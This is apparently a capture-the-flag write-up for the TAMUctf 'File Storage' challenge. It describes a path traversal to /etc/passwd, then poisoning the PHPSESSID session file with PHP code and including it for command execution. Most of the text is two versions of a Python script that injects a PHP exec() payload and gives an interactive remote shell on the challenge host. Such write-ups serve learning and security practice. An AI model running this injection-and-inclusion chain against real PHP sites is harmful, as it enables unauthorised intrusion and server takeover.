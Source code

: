 # [File Storage](http://filestorage.tamuctf.com/)

This exercice was resolved thanks to session poisoning.

We started working on this around 22:30, it was a locked-down Saturday like any other. Thanks COV.

First notice, once you submit a name and click on a file, the url gets a nice `?file=xxxxx.txt` suffix `xxxxx` being the name of the file.

At that point we kept looking further and further, beeing able to access the infamous `/etc/passwd`.  
Actually located at `../../../../../../etc/passwd`.  
We had some fun with `/proc/` and then thought about the only cookie we had : `PHPSESSID`.

At 4AM after talking about going to bed I played with the cookies, this led to discover we could arbitrary change the PHPSESSID's content.  
Injecting PHP code in it was our first idea, so first things first : `echo("<p> Hello World <p>");`

Then my colleague BeerStorm made some nasty python code to provide us with a shell prompt.

This is the code he wrote at 6AM after 10 mins of manually typing commands and getting sick of it :

```python
from io import StringIO

import requests
from prompt_toolkit import PromptSession
from lxml import etree
from prompt_toolkit.lexers import PygmentsLexer
from pygments.lexers.shell import BashLexer

parser = etree.HTMLParser()


def exec(command, base_path='.'):
    REMOTE_EXEC = "<?php $row = exec('cd " + base_path + "&&" + command + "; echo \"<cwd>$(pwd)</cwd>\"" + "',$output,$error);echo '<XPLOIT>'; while(list(,$row) = each($output)){echo $row, \"\\n\";};echo '</XPLOIT>'; if($error){echo \"Error : $error<br />\"; exit;}?>"
    sess = requests.Session()
    sess.post('http://filestorage.tamuctf.com/index.php', {'name': REMOTE_EXEC})
    sess_id = sess.cookies['PHPSESSID']
    ans = sess.get('http://filestorage.tamuctf.com/index.php', params={'file': f"../../../../../../../tmp/sess_{sess_id}"})
    cwd = etree.parse(StringIO(ans.text), parser).xpath('//cwd/text()')[0]
    xploit = etree.parse(StringIO(ans.text), parser).xpath('//xploit/text()')
    return (xploit and xploit[0] or None, cwd)


ppt = PromptSession()
cwd = exec("pwd")[1]

while True:
    res, cwd = exec(ppt.prompt(f'{cwd} > ', lexer=PygmentsLexer(BashLexer)), cwd)
    print(res)
```

> Hint : You should always look for the roots before chopping a tree.


##### Here's the v2 "HE PREFERS" : 

```python
from io import StringIO

import requests
from prompt_toolkit import PromptSession
from lxml import etree
from prompt_toolkit.lexers import PygmentsLexer
from prompt_toolkit.styles import Style
from pygments.lexers.shell import BashLexer

parser = etree.HTMLParser()

style = Style.from_dict({
    '': '#FF8C00',
    'path': '#4169E1',
})

def exec(command, base_path='.'):
    REMOTE_EXEC = "<?php $row = exec('cd " + base_path + "&&" + command + "; echo \"<cwd>$(pwd)</cwd>\"" + \
                  "',$output,$error);echo '<XPLOIT>'; while(list(,$row) = each($output)){echo $row, \"\\n\";};" \
                  "echo '</XPLOIT>'; if($error){echo \"Error : $error<br />\"; exit;}?>"
    sess = requests.Session()
    sess.post('http://filestorage.tamuctf.com/index.php', {'name': REMOTE_EXEC})
    sess_id = sess.cookies['PHPSESSID']
    ans = sess.get('http://filestorage.tamuctf.com/index.php', params={'file': f"../../../../../../tmp/sess_{sess_id}"})
    cwd = etree.parse(StringIO(ans.text), parser).xpath('//cwd/text()')[0]
    xploit = etree.parse(StringIO(ans.text), parser).xpath('//xploit/text()')
    return (xploit and xploit[0] or None, cwd)


ppt = PromptSession()
cwd = exec("pwd")[1]

while True:
    res, cwd = exec(ppt.prompt([('class:path', cwd), ('', ' > ')], lexer=PygmentsLexer(BashLexer), style=style), cwd)
    print(res)
```